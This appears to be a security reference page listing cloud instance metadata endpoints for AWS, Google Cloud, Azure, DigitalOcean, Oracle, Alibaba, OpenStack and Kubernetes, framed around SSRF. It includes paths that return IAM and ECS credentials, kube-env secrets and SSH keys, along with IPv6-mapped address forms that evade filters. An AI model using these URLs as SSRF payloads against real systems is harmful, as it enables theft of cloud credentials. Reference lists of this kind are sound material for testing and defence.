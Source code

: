 ```yaml
---
layout: memory
title: List of various Cloud Metadata Service Addresses
---
```


<img height="150" align="left" src="/images/metadata-logo.png" > 
Below you find various addresses and info to different cloud provider, and how to access it. IMDSv1 is the most famous one, known for instance in correlation with SSRF and the CapitalOne bank. The list below helped me in the past to keep track on the things.

- [IPv6 Tests](#ipv6-tests)
- [AWS](#aws)
- [ECS Task](#ecs-task)
- [Google Cloud (Header Sometimes Required)](#google-cloud-header-sometimes-required)
- [kube-env; thanks to JackMc for the heads up on this (https://hackerone.com/reports/341876)](#kube-env-thanks-to-jackmc-for-the-heads-up-on-this-httpshackeronecomreports341876)
- [Google allows recursive pulls](#google-allows-recursive-pulls)
- [returns root password for Google](#returns-root-password-for-google)
- [Digital Ocean (No Header Required)](#digital-ocean-no-header-required)
- [Packetcloud](#packetcloud)
- [Azure (Header Required)](#azure-header-required)
- [Oracle Cloud (No Header Required)](#oracle-cloud-no-header-required)
- [Alibaba Cloud](#alibaba-cloud)
- [OpenStack/RackSpace](#openstackrackspace)
- [Oracle Cloud](#oracle-cloud)
- [Kubernetes](#kubernetes)


### IPv6 Tests

```
http://[::ffff:169.254.169.254]
http://[0:0:0:0:0:ffff:169.254.169.254]
```

### AWS

> Amazon Web Services (No Header Required) [Source](http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html#instancedata-data-categories)

```
http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
http://169.254.169.254/latest/user-data
http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
```

### ECS Task

> <https://docs.aws.amazon.com/AmazonECS/latest/developerguide/task-metadata-endpoint-v2.html>

```
http://169.254.170.2/v2/credentials/
```
   
### Google Cloud (Header Sometimes Required)

> Source:  <https://cloud.google.com/compute/docs/metadata>
>
> - Requires the header "Metadata-Flavor: Google" or "X-Google-Metadata-Request: True" on API v1
> - Most endpoints can be accessed via the v1beta API without a header

```  
http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id
```

### kube-env; thanks to JackMc for the heads up on this (<https://hackerone.com/reports/341876>)

```
http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env
```

### Google allows recursive pulls

```
http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true
```

### returns root password for Google

```
http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/?recursive=true&alt=json

```

### Digital Ocean (No Header Required)

> [Source](https://developers.digitalocean.com/documentation/metadata/)

```
http://169.254.169.254/metadata/v1.json
http://169.254.169.254/metadata/v1/ 
http://169.254.169.254/metadata/v1/id   
http://169.254.169.254/metadata/v1/user-data
http://169.254.169.254/metadata/v1/hostname
http://169.254.169.254/metadata/v1/region   
http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address
```

### Packetcloud

    https://metadata.packet.net/userdata

### Azure (Header Required)

> Requires Header: "Metadata: true"
Source: <https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service>
(Old: ) <https://azure.microsoft.com/en-us/blog/what-just-happened-to-my-vm-in-vm-metadata-service/>

    http://169.254.169.254/metadata/instance?api-version=2017-04-02
    http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text

### Oracle Cloud (No Header Required)

> Source: <https://docs.us-phoenix-1.oraclecloud.com/Content/Compute/Tasks/gettingmetadata.htm>

    http://169.254.169.254/opc/v1/instance/

### Alibaba Cloud

> Source: <https://www.alibabacloud.com/help/faq-detail/49122.htm>

    http://100.100.100.200/latest/meta-data/
    http://100.100.100.200/latest/meta-data/instance-id
    http://100.100.100.200/latest/meta-data/image-id

### OpenStack/RackSpace

> Source: <https://docs.openstack.org/nova/latest/user/metadata-service.html>

    http://169.254.169.254/openstack  

### Oracle Cloud

> Source:  <https://docs.oracle.com/en/cloud/iaas/compute-iaas-cloud/stcsg/retrieving-instance-metadata.html>

    http://192.0.0.192/latest/
    http://192.0.0.192/latest/user-data/
    http://192.0.0.192/latest/meta-data/
    http://192.0.0.192/latest/attributes/

### Kubernetes

> Debug Services (<https://kubernetes.io/docs/tasks/debug-application-cluster/debug-service/>)

    https://kubernetes.default.svc.cluster.local
    https://kubernetes.default

Sources:

- <https://twitter.com/Random_Robbie/status/1072242182306832384>
- <https://kubernetes.default.svc/metrics>
